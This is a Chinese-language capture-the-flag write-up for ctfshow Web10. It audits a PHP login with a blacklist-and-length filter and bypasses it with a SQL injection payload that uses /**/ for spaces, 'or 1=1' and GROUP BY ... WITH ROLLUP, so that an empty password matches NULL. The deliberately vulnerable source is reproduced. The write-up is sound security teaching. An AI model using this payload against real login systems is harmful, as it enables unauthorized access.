

# ctfshow web10 — 用 `WITH ROLLUP` 造一个 NULL 密码

> **题目类型**：Web — SQL 注入（黑名单 + 长度校验）
>
> **题目地址**：ctfshow 入门 Web10
>
> **Flag**：`ctfshow{fe48aa87-a2ba-4293-a096-5812a866ae77}`

---

## 题目概述

一个登录框。**登录按钮旁边有个「取消」，点它直接把源码下载下来了。**

拿到源码之后，这题就变成了一道「读代码」的题。

---

## 解题过程

### Step 1：源码先给全了



```php
function replaceSpecialChar($strParam){
    $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
    return preg_replace($regex, "", $strParam);
}

if (strlen($username) != strlen(replaceSpecialChar($username))) {
    die("sql inject error");
}
if (strlen($password) != strlen(replaceSpecialChar($password))) {
    die("sql inject error");
}

$sql = "select * from user where username = '$username'";
$result = mysqli_query($con, $sql);
if (mysqli_num_rows($result) > 0) {
    while ($row = mysqli_fetch_assoc($result)) {
        if ($password == $row['password']) {
            echo "登陆成功<br>";
            echo $flag;
        }
    }
}
```

### Step 2：这道题有两条互相配合的防线

**① 黑名单是「替换为空」，删掉：**

```
select  from  where  join  sleep  and  \s（所有空白）  union  ,
```

**② 更狠的是第二道：删完还要比长度**

```php
strlen($username) != strlen(replaceSpecialChar($username))  →  直接 die
```

**这意味着：你的输入里**一个被黑名单命中的子串都不能有** —— 只要有一个字符被删掉，长度就对不上，直接报 `sql inject error`。**

**所以「双写绕过」在这题是**完全无效**的：**

```
seleselectct   →  删掉中间的 select 后变短 → 长度不等 → die
```

### Step 3：但 password 根本没进 SQL

**看这一行：**

```php
$sql = "select * from user where username = '$username'";   // 只有 username
```

**password 不拼 SQL。它是在 PHP 里做**松散比较**：**

```php
if ($password == $row['password'])
```

**所以思路要拆成两步：**

```text
① username 注入  →  让查询返回一行
② 那一行的 password  →  和我发过去的 password 用 == 相等
```

### Step 4：把 password 变成 NULL

**如果查询能返回一行「password 是 NULL」，那我们要发的 password 就是**空**：**

```php
'' == NULL   →   true      // PHP 7 的松散比较
```

**怎么让查询返回 NULL？用 `WITH ROLLUP`。**

### Step 5：`WITH ROLLUP` 是什么

**它是 `GROUP BY` 的修饰符，用来多产出一行**汇总行**：**

```sql
select * from user group by password with rollup;
```

```text
password
e10adc3949ba59abbe56e057f20f883e
5f4dcc3b5aa765d61d8327deb882cf99
NULL                              ← 汇总行
```

**规则：**汇总行里，被 `GROUP BY` 的那一列会变成 NULL**。**

**所以这里必须 `group by password`，不能 `group by username`：**

```sql
group by username with rollup
     → 汇总行: username=NULL，password=某一行的真实值   ✗ 拿到的还是哈希

group by password with rollup
     → 汇总行: password=NULL，username=某一行的值       ✓ 正是我们要的
```

**因为 `SELECT *` 取所有列，没被分组的列在汇总行里取的是组内某一行的值 —— 只有被分组的那列才是 NULL。**

### Step 6：为什么还需要 `or 1=1`

**`WITH ROLLUP` 的汇总行是「在分组结果之上再加一行」，它需要**先有分组**。**

```sql
where username = 'admin' group by password with rollup
```

**如果 `admin` 这个用户不存在（或者你不确定它在不在），`WHERE` 一行都匹配不到 → 没有分组 → 也就没有汇总行 → 拿不到 NULL。**

**加上 `or 1=1`：**

```sql
where username = 'admin' or 1=1 group by password with rollup
```

**`WHERE` 恒真 → 表里所有行都进来 → 必有分组 → 汇总行必然出现。**

**一句话：`or 1=1` 让整条链**不依赖具体用户名是否存在**。**

### Step 7：空格被过滤，用 `/**/`

**`\s` 在黑名单里 —— 空格、Tab、换行全被删。**

**但 MySQL 里 `/**/` 等价于空白，而且它不在黑名单：**

```sql
admin'or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#
```

**`strlen` 检查通过（没有字符被删），MySQL 又把它当空格 ✓**

### Step 8：payload 与结果

```text
username = admin'or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#
password = （留空）
```

**SQL 拼出来是：**

```sql
select * from user where username = 'admin'or/**/1=1/**/group/**/by/**/password/**/with/**/rollup#'
                                                                                                 ↑
                                                                                    # 把模板这个 ' 注释掉
```

**查询返回若干分组行 + 一行 password=NULL 的汇总行 → 空 password 与 NULL 相等 → flag：**

```text
ctfshow{fe48aa87-a2ba-4293-a096-5812a866ae77}
```

---

## 解题思路总结

```text
登录框旁边有「取消」→ 点它下载源码
  → 审计：黑名单替换为空 + 长度校验（双写无效）
    → 但 password 不拼 SQL，只在 PHP 里弱比较
      → 那就想办法让查询返回一行 password=NULL
        → WITH ROLLUP 的汇总行会把分组列置 NULL
          → 所以要 group by password（不是 username）
            → 但要先有分组 → 加 or 1=1 让 WHERE 恒真
              → 空格被过滤 → 用 /**/ 代替
                → 空 password == NULL → flag
```

### 漏洞原理

**两个「错位」叠在一起：**

**① 过滤器的「替换」与校验的「长度」不自洽**

**黑名单用 `preg_replace` 删关键字，再用 `strlen` 比对长度 —— 于是"用了关键字"和"没用关键字"可以被区分。**

**但它只挡住了**关键字**，没挡住**注释**（`/**/`）和**逻辑运算符**（`or`）。**

**② PHP 的弱比较允许 NULL 与空串相等**

```php
'' == NULL   →   true
```

**数据库里"这行的值未知/没有"，到了 PHP 里被当成"空字符串"，于是空密码就"匹配"了。**

**这和 `0e` 碰撞、`md5(array)` 是同一类问题：**比较时发生了类型转换，而转换后的值由攻击者控制。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| `WITH ROLLUP` | `GROUP BY` 的修饰符，多产出一行汇总行 |
| 汇总行的 NULL | **被 GROUP BY 的那一列**变成 NULL |
| `group by password` | 想让 password 变 NULL，就必须按 password 分组 |
| 空结果集 | 没有分组就没有汇总行 → 所以需要 `or 1=1` |
| `/**/` | MySQL 里等价于空白，绕过 `\s` 过滤 |
| `'' == NULL` | PHP 7 为 true（`'0' == NULL` 为 false） |
| 长度校验的意义 | 让「双写绕过」失效 —— 删一个字符就报错 |
| `#` 注释 | 屏蔽模板末尾的 `'`；**放 URL 里要写 `%23`** |
| password 不在 SQL 里 | 只参与 PHP 比较 → 所以要改的是「查出来的值」 |

---

??? note "完整源码（按截图整理）"

    ```php
    <?php
    $flag = "";
    function replaceSpecialChar($strParam){
        $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
        return preg_replace($regex, "", $strParam);
    }
    if (!$con) {
        die('Could not connect: ' . mysqli_error());
    }
    if (strlen($username) != strlen(replaceSpecialChar($username))) {
        die("sql inject error");
    }
    if (strlen($password) != strlen(replaceSpecialChar($password))) {
        die("sql inject error");
    }
    $sql = "select * from user where username = '$username'";
    $result = mysqli_query($con, $sql);
    if (mysqli_num_rows($result) > 0) {
        while ($row = mysqli_fetch_assoc($result)) {
            if ($password == $row['password']) {
                echo "登陆成功<br>";
                echo $flag;
            }
        }
    }
    ?>
    ```
